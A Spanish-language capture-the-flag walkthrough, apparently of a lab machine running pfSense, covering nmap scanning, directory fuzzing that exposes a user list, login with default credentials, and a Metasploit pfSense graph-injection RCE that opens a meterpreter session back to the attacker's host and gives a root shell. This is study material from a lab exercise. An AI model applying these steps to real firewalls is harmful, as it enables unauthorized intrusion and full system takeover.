








***Fase 1: Reconocimiento***
---------------------------------------------
Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 5000 -p- -Pn 10.10.10.60 -oN escaneo
```


Vemos que en el escaneo de puertos nos dice que está el puerto 80 abierto y que se redirige en el puerto 433. Así que vamos a ver que está corriendo por ese puerto.


Vemos que hay un panel de login, vamoss a intentar aplicar las credenciales por defecto de PFSense.
```
user: admin
password: pfsense
```


Como al probar estas credenciales no me ha logueado, he pensado en realizar un fuzzing web para ver si encuentar información que podamos usar para tal de acceder al panel de login.
```
dirsearch -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


Vemos que hay un archivo llamado `system-users.txt`. Vamos a introducirlo en la dirección del sitio para ver que hay.


Este nos indica que tenemos un usuario específico con la contraseña por defecto.

***Fase 2: Explotación***
-------------------------
Ahora procederemos a iniciar sesión con las credenciales adquiridas.
```
user: rohit
password: pfsense
```


Tras buscar en google, he encontrado un posible RCE en el link --> https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/http/pfsense_graph_injection_exec.md

Seguiremos los pasos que nos indica:

```
msfconsole
```

```
use exploit/unix/http/pfsense_graph_injection_exec
```

```
set rhosts 10.10.10.60
```

```
set lhost 10.10.14.15
```

```
set username rohit
```

```
set password pfsense
```

```
exploit
```


***Fase 3: Intrusión***
---------------------
Una vez tenemos la sesión de meterpreter abierta introducieremos el siguiente comando para tener acceso a root.
```
shell
```


Como podemos ver, tenemos el control total del servidor y solo nos faltará encontrar las flags de usuario.